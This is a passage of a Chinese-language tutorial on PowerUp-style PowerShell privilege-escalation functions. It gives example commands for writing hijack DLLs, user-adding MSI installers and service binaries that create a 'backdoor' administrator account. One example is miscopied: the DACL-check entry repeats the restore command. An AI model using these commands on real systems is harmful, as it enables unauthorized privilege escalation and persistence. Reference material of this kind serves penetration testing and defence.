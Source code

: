 恢复服务的可执行文件到原始目录。

执行方式：

```
PS C:\> Restore-ServiceBinary -ServiceName VulnSVC

```

**Test-ServiceDaclPermission**

检查某个用户是否在一个服务有自由访问控制的权限，返回true或false。

执行方式：

```
PS C:\> Restore-ServiceBinary -ServiceName VulnSVC

```

**Write-HijackDll**

输出一个自定义命令并且能够自删除的bat文件到$env:Temp\debug.bat，并输出一个能够启动这个bat文件的dll。

执行方式：

```
PS C:\> Write-HijackDll -OutputFile 'E:\temp\test.dll' -Command 'whoami'

```

![Alt text](http://drops.javaweb.org/uploads/images/59c74d5c8e67d445c308df4f03b49df438dee876.jpg)

**Write-UserAddMSI**

生成一个安装文件，运行这个安装文件，则弹出添加用户的框。

执行方式：

```
PS C:\> Write-UserAddMSI

```

**Write-ServiceBinary**

预编译C#服务的可执行文件。默认创建一个默认管理员账号。可通过Command定制自己的命令。

执行方式：

```
PS C:\> Write-ServiceBinary -ServiceName VulnSVC # 添加默认账号
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123! # 指定添加用户，用户密码以及添加的用户组。
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -Command "net ..." # 自定义执行命令

```

**Install-ServiceBinary**

通过Write-ServiceBinary写一个C#的服务用来添加用户。
